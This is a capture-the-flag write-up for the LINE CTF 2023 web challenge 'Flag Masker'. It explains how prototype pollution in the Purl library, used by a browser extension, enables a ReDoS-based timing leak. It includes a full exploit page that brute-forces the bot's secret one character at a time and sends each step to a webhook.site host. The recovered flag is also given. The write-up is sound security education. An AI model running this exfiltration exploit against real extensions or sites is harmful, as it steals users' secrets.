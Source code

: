 # LINE CTF 2023 - Web - Flag Masker

1. OSINT phase: Prototype Pollution
    - By googling, I found [Purl](https://github.com/allmarkedup/purl), which is used in a minified code `dist/bot/extension/content.js`.
    - This library has a Prototype Pollution vulnerability.
        - ref. https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/purl.md
2. Exploit phase: XS-Leak with ReDoS
    - By Prototype Pollution, we can pollute `n.regex` in `dist/bot/extension/worker.js`.
    - I leaked the bot's memo (flag) with ReDoS:
        - ReDoS payload: `(?=${prefix}).*.*.*.*.*.*.*.*!`
        - See the following HTMLs.

`index.html`:
```html
<body>
  <script>
    const HOOK_URL = "https://webhook.site/xxxxxxxxxx";

    const BASE_URL = "http://web:8000";
    const CHARS = "0123456789abcdef";
    const LEN = 32;

    const sleep = (msecs) => new Promise((r) => setTimeout(r, msecs));

    const measure = async (url) => {
      const w1 = open(url);
      await sleep(100);

      const start = performance.now();

      const w2 = open(location.origin + "/x.html");
      while (true) {
        try {
          await sleep(10);
          if (
            w2.document.body.innerHTML.includes(
              "DETECTED FLAGS ARE MASKED BY EXTENSION"
            )
          ) {
            break;
          }
        } catch (e) {}
      }

      const time = performance.now() - start;
      w2.close();
      w1.close();

      return time;
    };

    const leak = async (prefix) => {
      let maxT = 0;
      let maxC = null;
      for (const c of CHARS) {
        const url = `${BASE_URL}#__proto__[config]=${JSON.stringify({
          regex: `(?=${prefix + c}).*.*.*.*.*.*.*.*!`,
        })}`;
        const t = await measure(url);
        if (t > maxT) {
          maxT = t;
          maxC = c;
        }
      }
      return maxC;
    };

    const main = async () => {
      navigator.sendBeacon(HOOK_URL, "start");

      let known = "LINECTF{" + location.hash.slice(1);
      for (let i = 0; known.length < "LINECTF{".length + LEN; i++) {
        known += await leak(known);
        navigator.sendBeacon(HOOK_URL, known);
      }
      known += "}";
      navigator.sendBeacon(HOOK_URL, "flag: " + known);
    };
    main();
  </script>
</body>
```

`x.html`:
```html
<body>LINECTF{x}</body>
```

## Flag

```
LINECTF{e1930b4927e6b6d92d120c7c1bba3421}
```
